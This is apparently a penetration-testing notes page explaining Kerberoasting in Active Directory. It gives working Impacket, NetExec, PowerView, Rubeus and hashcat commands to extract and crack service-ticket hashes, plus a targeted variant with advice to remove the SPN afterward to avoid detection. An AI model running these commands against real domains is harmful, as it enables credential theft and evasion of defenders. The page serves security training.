 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## Concept

**Kerberoasting** is an attack on the **Service Ticket (ST)** and **Service Principal Names (SPNs)**. [SPNs](../recon.md#spns) are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

> _Accounts like `krbtgt`, **computer accounts**, and **(g)MSAs** are usually resistant due to complex, long passwords._

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

> _Typically,_ [_Kerberoasting_](kerberoasting.md) _happens after compromising a domain user. However, according to_ [_new research_](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)_, it is possible to perform this attack with an account susceptible to ASREPRoast (for an example of this check_ [_Rebound_](../../../boxes/insane/rebound.md#kerberoasting)_)._

## Attack

{% tabs %}
{% tab title="Linux" %}
We can check if an account has an SPN using [Impacket](../../../tools/active-directory/impacket.md).

```bash
# Confirm that the target account has SPN
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

> If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)` :
>
> ```bash
> sudo ntpdate 192.168.50.70
> ```

Then we can proceed to Kerberoast the target account with [NetExec](../../../tools/active-directory/netexec-cme.md) or [Impacket](../../../tools/active-directory/impacket.md)'s `GetUserSPNs`.

{% code overflow="wrap" %}
```bash
# Kerberoast the target account with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt

# Kerberoast the target account with Impacket's GetUserSPNs
impacket-GetUserSPNs -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst

# Kerberoast an account susceptible to ASREPRoasting with Impacket's GetUserSPNs
impacket-GetUserSPNs -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

> _For an example of Kerberoasting with NetExec check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_._

Finally, we can crack the hashes using [`hashcat`](../../../tools/passwords/hashcat.md).

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can check if an account has an SPN using [PowerView](../../../tools/active-directory/powerview.md) or [Rubeus](../../../tools/active-directory/rubeus.md).

```powershell
# Confirm that the target account has SPN with PowerView
Get-DomainUser 'sqldev' | Select serviceprincipalname
# Enumerate all user-linked SPNs and extract TGS-REP hashes with Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Then we can proceed to Kerberoast the target account with [PowerView](../../../tools/active-directory/powerview.md) or [Rubeus](../../../tools/active-directory/rubeus.md).

{% code overflow="wrap" %}
```powershell
# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Kerberoast the target account with Rubeus
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

> _For an example of Kerberoasting with Rubeus check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle#path-to-victory)_._

Finally, we can crack the hashes on our attacking machine using [`hashcat`](../../../tools/passwords/hashcat.md).

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

Optionally, we can clear the SPNs of the target account.

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

## Targeted Kerberoasting

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS. This attack can be performed with [`targetedKerberoast.py`](https://github.com/ShutdownRepo/targetedKerberoast).&#x20;

> _Remember to clean up by removing the SPN afterward to avoid detection!_

```bash
targetedKerberoast.py -v -d <DOMAIN_FQDN> -u <USER> -p <PASSWORD>
```

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}

{% tab title="targetedKerberoast" %}
{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}
{% endtab %}
{% endtabs %}
